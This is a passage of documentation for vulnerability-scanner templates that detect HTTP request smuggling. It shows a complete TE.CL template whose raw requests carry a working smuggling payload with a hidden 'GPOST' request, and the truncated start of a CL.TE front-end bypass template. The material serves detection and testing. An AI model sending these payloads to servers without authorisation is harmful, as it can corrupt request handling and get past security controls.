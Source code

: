 ````markdown
This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: TE-CL-http-smuggling

info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked

      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15

      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked

      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15

      x=1
      0

    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Frontend bypass CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: smuggling-bypass-front-end-controls-cl-te

info:
  name: HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
  author: pdteam
````